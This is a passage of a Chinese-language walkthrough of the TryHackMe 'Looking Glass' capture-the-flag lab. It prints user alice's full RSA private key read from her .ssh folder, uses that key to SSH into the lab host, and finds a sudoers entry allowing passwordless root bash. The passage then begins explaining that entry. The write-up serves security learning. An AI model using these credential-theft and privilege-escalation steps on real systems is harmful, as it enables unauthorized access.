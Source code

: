 ```
```
cat alice/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
NIRchPaFUqJXQZi5ryQH6YxZP5IIJXENK+a4WoRDyPoyGK/63rXTn/IWWKQka9tQ
2xrdnyxdwbtiKP1L4bq/4vU3OUcA+aYHxqhyq39arpeceHVit+jVPriHiCA73k7g
HCgpkwWczNa5MMGo+1Cg4ifzffv4uhPkxBLLl3f4rBf84RmuKEEy6bYZ+/WOEgHl
fks5ngFniW7x2R3vyq7xyDrwiXEjfW4yYe+kLiGZyyk1ia7HGhNKpIRufPdJdT+r
NGrjYFLjhzeWYBmHx7JkhkEUFIVx6ZV1y+gihQIDAQABAoIBAQDAhIA5kCyMqtQj
X2F+O9J8qjvFzf+GSl7lAIVuC5Ryqlxm5tsg4nUZvlRgfRMpn7hJAjD/bWfKLb7j
/pHmkU1C4WkaJdjpZhSPfGjxpK4UtKx3Uetjw+1eomIVNu6pkivJ0DyXVJiTZ5jF
ql2PZTVpwPtRw+RebKMwjqwo4k77Q30r8Kxr4UfX2hLHtHT8tsjqBUWrb/jlMHQO
zmU73tuPVQSESgeUP2jOlv7q5toEYieoA+7ULpGDwDn8PxQjCF/2QUa2jFalixsK
WfEcmTnIQDyOFWCbmgOvik4Lzk/rDGn9VjcYFxOpuj3XH2l8QDQ+GO+5BBg38+aJ
cUINwh4BAoGBAPdctuVRoAkFpyEofZxQFqPqw3LZyviKena/HyWLxXWHxG6ji7aW
DmtVXjjQOwcjOLuDkT4QQvCJVrGbdBVGOFLoWZzLpYGJchxmlR+RHCb40pZjBgr5
8bjJlQcp6pplBRCF/OsG5ugpCiJsS6uA6CWWXe6WC7r7V94r5wzzJpWBAoGBAM1R
aCg1/2UxIOqxtAfQ+WDxqQQuq3szvrhep22McIUe83dh+hUibaPqR1nYy1sAAhgy
wJohLchlq4E1LhUmTZZquBwviU73fNRbID5pfn4LKL6/yiF/GWd+Zv+t9n9DDWKi
WgT9aG7N+TP/yimYniR2ePu/xKIjWX/uSs3rSLcFAoGBAOxvcFpM5Pz6rD8jZrzs
SFexY9P5nOpn4ppyICFRMhIfDYD7TeXeFDY/yOnhDyrJXcbOARwjivhDLdxhzFkx
X1DPyif292GTsMC4xL0BhLkziIY6bGI9efC4rXvFcvrUqDyc9ZzoYflykL9KaCGr
+zlCOtJ8FQZKjDhOGnDkUPMBAoGBAMrVaXiQH8bwSfyRobE3GaZUFw0yreYAsKGj
oPPwkhhxA0UlXdITOQ1+HQ79xagY0fjl6rBZpska59u1ldj/BhdbRpdRvuxsQr3n
aGs//N64V4BaKG3/CjHcBhUA30vKCicvDI9xaQJOKardP/Ln+xM6lzrdsHwdQAXK
e8wCbMuhAoGBAOKy5OnaHwB8PcFcX68srFLX4W20NN6cFp12cU2QJy2MLGoFYBpa
dLnK/rW4O0JxgqIV69MjDsfRn1gZNhTTAyNnRMH1U7kUfPUB2ZXCmnCGLhAGEbY9
k6ywCnCtTz2/sNEgNcx9/iZW+yVEm/4s9eonVimF+u19HJFOPJsAYxx0
-----END RSA PRIVATE KEY-----
```

把上面信息复制到本地成id_rsa文件，用ssh登录alice账号
# user 4 alice
```
┌──(root💀kali)-[~/tryhackme/lookingglass]
└─#  chmod 600 id_rsa         
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/lookingglass]
└─#  ssh -i id_rsa alice@10.10.189.27  
Last login: Fri Jul  3 02:42:13 2020 from 192.168.170.1
alice@looking-glass:~$ id
uid=1005(alice) gid=1005(alice) groups=1005(alice)
alice@looking-glass:~$ whoami
alice
```

不能使用sudo -l，因为不知道密码
有一个txt文件，但是没有什么卵用不用管

全局寻找alice相关的文件
```
alice@looking-glass:/$ find / -name *alice* -type f 2>/dev/null
/etc/sudoers.d/alice
````

查看这个文件,可以使用bash
```
alice@looking-glass:/$ cat /etc/sudoers.d/alice 
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

在上面这条命令里

>alice 用户名
>ssalg-gnikool 主机名
````